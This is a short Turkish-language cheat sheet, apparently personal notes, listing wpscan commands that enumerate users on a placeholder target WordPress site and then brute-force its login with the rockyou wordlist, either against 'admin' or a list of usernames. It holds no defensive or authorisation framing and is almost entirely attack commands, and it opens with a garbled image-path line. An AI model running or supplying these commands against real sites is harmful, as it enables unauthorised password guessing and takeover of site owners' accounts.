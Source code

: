 hedef site üzerinde kullanıcı bulma
```bash
wpscan --url http://hedefsite.com -e u
```
```bash
/ bunları siledebiliriz boşluk bırakıyor onlar !!!
```

Brute Force Şifre Denemesi
```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames admin \
--max-threads 10

```
 Ekstra: Kullanıcı Listesi ile Brute Force

```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames users.txt \
--max-threads 10

```

